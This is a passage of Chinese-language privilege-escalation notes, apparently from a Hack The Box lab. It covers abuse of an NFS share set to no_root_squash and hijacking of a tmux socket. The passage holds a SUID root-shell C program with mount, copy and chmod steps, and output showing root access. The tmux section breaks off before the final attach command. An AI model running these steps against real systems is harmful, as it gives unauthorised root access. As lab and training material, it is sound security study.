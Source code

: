 > 网络文件系统 NFS 允许用户通过托管在 Unix/Linux 系统上的网络访问共享文件或目录， NFS 使用 TCP/UDP 端口 2049，可以通过发出命令远程列出任何可访问的挂载

```shell
# showmount -e列出了 NFS 客户端的 NFS 服务器的导出列表（或文件系统的访问控制列表）
showmount -e 10.129.2.12
	Export list for 10.129.2.12:
    /tmp             *
    /var/nfs/general *
```

NFS 的配置文件： /etc/exports

| 选项               | 描述                                                                                                      |
| ---------------- | ------------------------------------------------------------------------------------------------------- |
| root\_squash     | 如果使用root用户访问NFS共享，则改为该nfsnobody用户，即非特权账户。root 用户创建和上传的任何文件都将归nfsnobody用户所有，这可以防止攻击者上传带有 SUID 位设置的二进制文件。 |
| no\_root\_squash | 以本地 root 用户身份连接到共享的远程用户将能够以 root 用户身份在 NFS 服务器上创建文件。这将允许创建带有 SUID 位集的恶意脚本/程序。                           |

```shell
cat /etc/exports
    /var/nfs/general *(rw,no_root_squash)
    /tmp *(rw,no_root_squash)
```

例如，我们可以创建一个`/bin/sh`使用本地 root 用户执行的 SETUID 二进制文件。然后我们可以在`/tmp`本地挂载目录，将 root 拥有的二进制文件复制到 NFS 服务器，并设置 SUID 位。

```shell
# 创建一个简单的二进制文件，在本地挂载目录，复制它，并设置必要的权限
# shell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}

htb@NIX02:/tmp$ gcc shell.c -o shell
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.210:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) 
```

#### 3. 劫持 Tmux 会话

> 用户可能会让`tmux`进程以特权用户身份运行，例如设置了弱权限的 root，这可能会被劫持。这可以通过以下命令来创建新的共享会话并修改所有权来完成。

```shell
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
# 如果我们可以破坏dev组中的用户，我们可以附加到这个会话并获得 root 访问权限
# 检查任何正在运行的tmux进程
htb@NIX02:~$  ps aux | grep tmux

# 确认权限
htb@NIX02:~$ ls -la /shareds 
	srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
	
# 查看我们的组成员资格
htb@NIX02:~$ id
	uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)

# 最后，附加到tmux会话并确认 root 权限
```